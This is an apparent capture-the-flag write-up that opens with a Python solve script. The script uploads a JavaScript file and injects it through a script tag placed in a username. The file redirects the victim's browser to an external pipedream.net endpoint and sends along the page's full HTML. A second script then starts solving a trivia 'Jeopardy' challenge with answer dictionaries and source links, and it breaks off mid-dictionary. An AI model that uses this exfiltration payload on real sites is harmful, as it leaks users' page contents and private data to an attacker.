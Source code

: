 ```python
    print(api.submit(("asd.js", "document.location = 'https://eo50su9j1wqol0x.m.pipedream.net?c='+encodeURIComponent(document.documentElement.innerHTML)")))

    api = API(f"<script src='/uploads/{user_hash}/asd.js'></script>", "sold")
    api.register()
    api.login()
    print(api.submit(("foo.png", "foo")))
```

# JeopardyV3 Late solve -  misc
```python
from pwn import *

cyprus = {
	1 : b"Cyprus 100",
	2 : b"Cyprus 200",
	3 : b"Cyprus 300",
	4 : b"Cyprus 400",
	5 : b"Cyprus 500"
}

cypruss = {
	1 : b"nothing", #ok ''
	2 : b"Mercedes", #ok '{'
	3 : b"The Kingdom of Kourion", #https://en.wikipedia.org/wiki/Kourion '}', 't' 
	4 : b"Infinity Pool",# masih bingung dapet darimana  'x', 's'
	5 : b"Horseshoe" #https://www.yumpu.com/en/document/read/55608048/cyprus (DALI REGION) 'u', 'v', '('
}
#################
ChatGPT = {
	1 : b"Too Recent For ChatGPT 100",
	2 : b"Too Recent For ChatGPT 200",
	3 : b"Too Recent For ChatGPT 300",
	4 : b"Too Recent For ChatGPT 400",
	5 : b"Too Recent For ChatGPT 500"
}

ChatGPTs = {
	1 : b"beer", #https://edition.cnn.com/2022/11/22/business/budweiser-unsold-beer-world-cup/index.html ':'
	2 : b"Warhol", #https://www.nytimes.com/2023/01/17/us/ana-walshe-husband-murder-massachusetts.html ')'
	3 : b"Etsy", #https://www.theverge.com/2023/3/12/23636379/etsy-delaying-seller-payouts-silicon-valley-bank-collapse '+', 'g'
	4 : b"Dollar Tree", # https://edition.cnn.com/2021/11/23/investing/dollar-tree-prices-inflation/index.html '_', '<'	
	5 : b"Alex Murdaugh" #https://www.netflix.com/tudum/articles/murdaugh-murders-a-southern-scandal-release-date-news 'p', 'q'
}
#################
UMassCTFH = {
	1 : b"UMassCTF History 100",
	2 : b"UMassCTF History 200",
	3 : b"UMassCTF History 300",
	4 : b"UMassCTF History 400",
	5 : b"UMassCTF History 500"
}

UMassCTFHs = {
	1 : b"Indonesia", #ok '`', 'a'
	2 : b"George H. W. BuSHH", #https://ctftime.org/team/78233 'r'
```